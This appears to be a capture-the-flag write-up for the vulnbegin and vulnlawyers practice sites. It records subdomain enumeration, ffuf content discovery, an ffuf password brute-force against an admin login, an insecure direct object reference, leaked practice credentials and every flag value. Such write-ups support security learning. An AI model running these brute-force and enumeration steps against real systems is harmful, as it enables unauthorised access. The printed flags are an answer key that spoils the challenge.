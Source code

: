 # ctfchallenge_co_uk


# target: vulnerable website for ctf(ctfchallenge.co.uk)

## easy | vulnbegin | 9 flags

### cookie used during automation: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSTRNWGd5WVdwMGRTSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJkMGE3MTE1NmMxYTY5YmM3NWRjN2QzZDg1ZjEwNzVkYiJ9


### 4-flag : 
robots.txt --> http://www.vulnbegin.co.uk/secret_d1rect0y/ -->
```[^FLAG^2B22E2CB70E218510802B0359488F6A2^FLAG^]```

tools used and documentation:
#### nslookup -type=any vulnbegin.co.uk 8.8.8.8
The above command will query the DNS server for any default A,TXT,NS,SOA,SPF records. You will see from the results there is a TXT record with a flag.

### 1-flag: ```[^FLAG^BED649C4DB2DF265BD29419C13D82117^FLAG^]```

sublist3r -d vulnbegin.co.uk

The above query uses OSINT to discover domain names from various search engines and other data resources, from the result you will find an obscure subdomain if you visit it this will show you a flag

result:
server.vulnbegin.co.uk

v64hss83.vulnbegin.co.uk

### 3-flag 
```[^FLAG^E858ED9649E57BECE9ACD1A4C60D3446^FLAG^]``` on server.vulnbegin.co.uk
 
 ### 2-flag from sublister : ```[^FLAG^047524FE61AE6B5FD1D184994C7322FC^FLAG^]```


dnsrecon for finding subdomains using brute force
dnsrecon -d vulnbegin.co.uk -D ~/wordlists/subdomains.txt -t brt


content discovery using ffuf:
ffuf -p 0.1 -t 1 -w ~/wordlists/content.txt -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSTRNWGd5WVdwMGRTSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJkMGE3MTE1NmMxYTY5YmM3NWRjN2QzZDg1ZjEwNzVkYiJ9" -u http://www.vulnbegin.co.uk/FUZZ


in this case username was admin but the response code is 200 for both valid and invalid requests:
to filter out 200 requets i used command:


ffuf -p 0.1 -t 1 -w ~/wordlists/passwords.txt -X POST -d "username=admin&password=FUZZ" -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSTRNWGd5WVdwMGRTSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJkMGE3MTE1NmMxYTY5YmM3NWRjN2QzZDg1ZjEwNzVkYiJ9" -H "Content-Type: application/x-www-form-urlencoded" -u http://www.vulnbegin.co.uk/cpadmin/login -mc all -fc 200





### 5-flag 	```[^FLAG^93D7491FB4B054FB5C5AC3E0292BE41C^FLAG^]```





### 6-flag from brute forcing the directry or it can be achieved using ffuf
{"api_key":"X-Token: 492E64385D3779BC5F040E2B19D67742","flag":"```[^FLAG^F6A691584431F9F2C29A3A2DE85A2210^FLAG^]"}```


### 7-flag from adding X-Token we got from cpanel/env 
{"messaged":"User Authenticated","flag":```"[^FLAG^0BDC60CC5E283476E7107C814C18DCCF^FLAG^]"```}


### 8-flag 
"flag":```"[^FLAG^7B3A24F3368E71842ED7053CF1E51BB0^FLAG^]"```,

### 9-flag after indirect object reference for user 5 
```[^FLAG^3D82BE780F46EE86CE060D23E6E80639^FLAG^]```


# vulnlawyers | easy | target:vulnlawyers.co.uk | 6 flags

#### cookie used during fuzzing ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSTRNWGd5WVdwMGRTSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJkMGE3MTE1NmMxYTY5YmM3NWRjN2QzZDg1ZjEwNzVkYiJ9

subdomain from sublister:
www.vulnlawyers.co.uk
data.vulnlawyers.co.uk
### flag-1
```[^FLAG^E78DEBBFDFBEAFF1336B599B0724A530^FLAG^]```



### flag-2  in the redirect 302 request when login --> denied
where response look like
```
HTTP/1.1 302 Found
Server: nginx/1.14.0 (Ubuntu)
Date: Mon, 05 Jul 2021 18:09:09 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Set-Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSTRNWGd5WVdwMGRTSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJkMGE3MTE1NmMxYTY5YmM3NWRjN2QzZDg1ZjEwNzVkYiJ9; expires=Wed, 04-Aug-2021 18:09:09 GMT; Max-Age=2592000; path=/; domain=.vulnlawyers.co.uk
Location: /denied
Content-Length: 1119

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>VulnLawyers - Old Login</title>
    <link href="/css/bootstrap.min.css" rel="stylesheet">
    <link href="/template-manager/style.css" rel="stylesheet">
</head>
<body>
<div class="container">
    <div class="row">
        <div class="col-md-12">
            <h1 style="padding-top:100px;text-align: center;color: #060505;letter-spacing: -1px;font-weight: bold">VulnLawyers</h1>
            <h3 class="text-center">We'll win that case!</h3>
        </div>
    </div>
    <div class="row">
        <div class="col-md-6 col-md-offset-3">
            <div class="alert alert-info">
                <p>Access to this portal can now be found here <a href=/lawyers-only">/lawyers-only</a></p>
                <p>[^FLAG^FB52470E40F47559EBA87252B2D4CF67^FLAG^]</p>
            </div>
        </div>
    </div>
</div>
<script src="/js/jquery.min.js"></script>
<script src="/js/bootstrap.min.js"></script>
</body>
</html>
```

```[^FLAG^FB52470E40F47559EBA87252B2D4CF67^FLAG^]```

hint from flag-2 : /lawyers-only 

## flag-3 from data.vulnlawyers.co.uk/users after fuzzing
```
{"users":[{"name":"Yusef Mcclain","email":"yusef.mcclain@vulnlawyers.co.uk"},{"name":"Shayne Cairns","email":"shayne.cairns@vulnlawyers.co.uk"},{"name":"Eisa Evans","email":"eisa.evans@vulnlawyers.co.uk"},{"name":"Jaskaran Lowe","email":"jaskaran.lowe@vulnlawyers.co.uk"},{"name":"Marsha Blankenship","email":"marsha.blankenship@vulnlawyers.co.uk"}],"flag":"[^FLAG^25032EB0D322F7330182507FBAA1A55F^FLAG^]"}
```

### flag-4 after brute force from intruder 
email : jaskaran.lowe@vulnlawyers.co.uk password: summer

```
[^FLAG^7F1ED1F306FC4E3399CEE15DF4B0AE3C^FLAG^]

```

### flag-5 after lot of methods i found suspicious link in js source code fetching info from /lawyers-only-profile-details/4
from that i got all users endpoint containing the credentials
```
1-{"id":1,"name":"Yusef Mcclain","email":"yusef.mcclain@vulnlawyers.co.uk","password":"Rk@c7#U3@2r%0f"}
2-{"id":2,"name":"Shayne Cairns","email":"shayne.cairns@vulnlawyers.co.uk","password":"q2V944&#2a1^3p","flag":"[^FLAG^938F5DC109A1E9B4FF3E3E92D29A56B3^FLAG^]"}
3-{"id":3,"name":"Eisa Evans","email":"eisa.evans@vulnlawyers.co.uk","password":"Sn06#ibx@lGPG7"}
5-{"id":5,"name":"Marsha Blankenship","email":"marsha.blankenship@vulnlawyers.co.uk","password":"A^66vqhOU!e2ZV"}
```
```
[^FLAG^938F5DC109A1E9B4FF3E3E92D29A56B3^FLAG^]
```
### flag-6 admin login
```
[^FLAG^B38BAE0B8B804FCB85C730F10B3B5CB5^FLAG^]
```
